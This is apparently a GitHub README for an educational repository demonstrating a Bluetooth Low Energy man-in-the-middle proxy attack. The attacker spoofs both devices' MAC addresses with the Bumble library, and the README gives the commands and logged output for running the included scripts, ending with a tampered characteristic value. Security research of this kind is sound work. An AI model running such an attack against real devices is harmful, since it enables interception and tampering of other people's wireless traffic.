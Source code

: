 # Bluetooth Low Energy MITM proxy attack

This repository contains a simple example of a Bluetooth Low Energy MITM proxy attack. It is provided for educational purposes only and without liability.

The attack is performed by Eve, who is able to intercept and modify the communication between Alice and Bob. The attack is possible due to Eve spoofing
both Alice's and Bob's MAC addresses on two different HCIs and being first to connect to Bob.

![Attack Scenario Diagram](attack-scenario.png)

The Python library https://github.com/google/bumble is used to interact with Bluetooth HCI devices. Bumble is installed
using `python -m pip install git+https://github.com/google/bumble.git@v0.0.190`

Experiments were performed on Linux with BlueZ stack. Check available HCIs with `hciconfig -a`. Remove HCI interface
from Linux BlueZ stack, every time you want to run something with bumble: `sudo hciconfig hci0 down`

## Examples using built-in bumble commands

Scan for nearby devices:

```bash
sudo hciconfig hci0 down && sudo ./venv/bin/bumble-scan hci-socket:0
```

Bob listening for BLE connections:

```bash
sudo hciconfig hci1 down && sudo ./venv/bin/bumble-pair src/bob.json hci-socket:1 --request --mode le
```

Alice connecting to Bob:

```bash
sudo hciconfig hci0 down && sudo ./venv/bin/bumble-pair src/alice.json hci-socket:0 --mode le FA:F2:F2:F2:F2:F2
```

## Performing MITM attack using Python scripts

Bob running BLE GATT server and listening for pairings:

```bash
$ sudo hciconfig hci3 down && sudo python3 ./bob.py bob.json hci-socket:3
<<< connecting to HCI...
=== Connected to Connection(handle=0x0040, role=PERIPHERAL, self_address=FA:F2:F2:F2:F2:F2, peer_address=FA:F1:F1:F1:F1:F1)
```

Eve performing MITM attack:

```bash
$ sudo hciconfig hci4 down && sudo hciconfig hci5 down && sudo python3 ./eve.py alice.json hci-socket:4 bob.json hci-socket:5
<<< connecting to HCI used for Bob ...
<<< connecting to HCI used for Alice ...
=== Connecting to Bob FA:F2:F2:F2:F2:F2...
=== Connected to Connection(handle=0x0048, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
=== Starting to advertise as Bob FA:F2:F2:F2:F2:F2
=== Connected to Connection(handle=0x0044, role=PERIPHERAL, self_address=FA:F2:F2:F2:F2:F2, peer_address=FA:F1:F1:F1:F1:F1)
```

Alice connecting to Bob:

```bash
$ sudo hciconfig hci0 down && sudo python3 ./alice.py alice.json hci-socket:0 FA:F2:F2:F2:F2:F2
<<< connecting to HCI...
=== Connecting to FA:F2:F2:F2:F2:F2...
=== Connected to Connection(handle=0x0001, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
=== Client: connected to Connection(handle=0x0001, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
Manufacturer Name:  Bob hates Alice!
```
